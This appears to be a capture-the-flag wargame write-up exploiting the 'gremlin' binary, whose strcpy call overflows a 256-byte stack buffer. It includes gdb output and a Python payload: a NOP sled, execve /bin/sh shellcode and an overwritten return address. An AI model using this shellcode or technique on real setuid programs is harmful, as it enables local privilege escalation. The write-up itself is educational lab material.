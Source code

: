 # Vulnerability
In gate's home directory, There is a file named as gremlin, and C code is provided, too.
```c
char buffer[256];
strcpy(buffer, argv[1]);
```
It uses strcpy to copy argv[1] to buffer[256].

strcpy() function doesn't check parameter's length so I can overwrite gremlin's SFP & RET Address.

# Exploitation
To check whether dummy bytes exist or not, disassemble gremlin's main function:
```assembly
0x8048430 <main>:	push   %ebp
0x8048431 <main+1>:	mov    %esp,%ebp
0x8048433 <main+3>:	sub    $0x100,%esp
```
It only uses ```0x100```(256) bytes, No any dummy bytes.

Then, the structure of gremlin would be like:
```
---------------------------------
| buffer[256] | SFP[4] | RET[4] |
---------------------------------
```

I will write NOP & Shellcode into buffer and modify RET address to buffer's address.
```
----------------------------------------------------------------------------
| NOP[100] + Shellcode[25] + NOP[131] | SFP[4] | RET[4] (buffer's address) |
----------------------------------------------------------------------------
```

Now, I only need buffer's address which will be written into RET.
```
(gdb) x/32x $esp-244
0xbffff878:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff888:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff898:	0x90909090	0x90909090	0x90909090	0x90909090
```

# Payload
```python
import os
from struct import *

payload = ""
payload = payload + "\x90" * 100
payload = payload + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"
payload = payload + "\x90" * 131
payload = payload + "AAAA" # SFP
payload = payload + "\x78\xf8\xff\xbf" # RET

os.execv('/home/gate/gremlin', ["", payload])
```
